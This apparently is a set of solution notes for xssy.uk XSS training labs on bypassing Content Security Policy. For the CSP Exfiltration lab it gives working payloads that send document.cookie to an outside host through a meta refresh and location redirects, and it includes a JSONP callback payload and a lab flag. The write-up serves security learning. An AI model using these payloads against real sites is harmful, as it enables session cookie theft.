 
### Lab 173: JSONP Bypass
- **URL Lab**: https://xssy.uk/lab/173
- **Payload**: 
```html
<script src="jsonp.ftl?callback=alert(document.cookie)"></script>
```
- **Full URL**: 
```
https://thnxclxd.xssy.uk/target.ftl?name=%3Cscript%20src=%22jsonp.ftl?callback=alert(document.cookie)%22%3E%3C/script%3E
```
- **Description**: When inspect element, found script contain JSONP endpoint. Use this endpoint to bypass CSP. Script contain JSONP: `<script src="jsonp.ftl?callback=print"></script>`

---

### Lab 628: Upload CSP Bypass
- **URL Lab**: https://xssy.uk/lab/628
- **Status**: Not solved yet

---

### Lab 179: Enctype Spoofing
- **URL Lab**: https://xssy.uk/lab/179
- **Status**: Not solved yet

---

### Lab 640: CSP Exfiltration
- **URL Lab**: https://xssy.uk/lab/640
- **Payload**: 
```javascript
<script>
var meta = document.createElement('meta');
meta.httpEquiv = 'refresh';
meta.content = '0;url=https://eqh42jmm.xssy.uk/?c='+document.cookie;
document.head.appendChild(meta);
</script>
```
- **Full URL (need encode URL before submit)**: 
```
https://pzcihwu2.xssy.uk/target.ftl?name=<script>var meta = document.createElement('meta');meta.httpEquiv = 'refresh';meta.content = '0;url=https://eqh42jmm.xssy.uk/?c='+document.cookie;document.head.appendChild(meta);</script>
```
- **Flag**: `zsunagkx`
- **Description**: Learn something about CSP Bypass via navigation technique. Use `location.assign` to exfiltrate cookie & bypass CSP `default-src: none` that means `connect-src` is `'none'` also.

**Alternative Payloads**:
```javascript
<script>location.assign("//eqh42jmm.xssy.uk?cookie="+document.cookie)</script>
<script>window.location='https://eqh42jmm.xssy.uk/?c='+document.cookie;</script>
```

---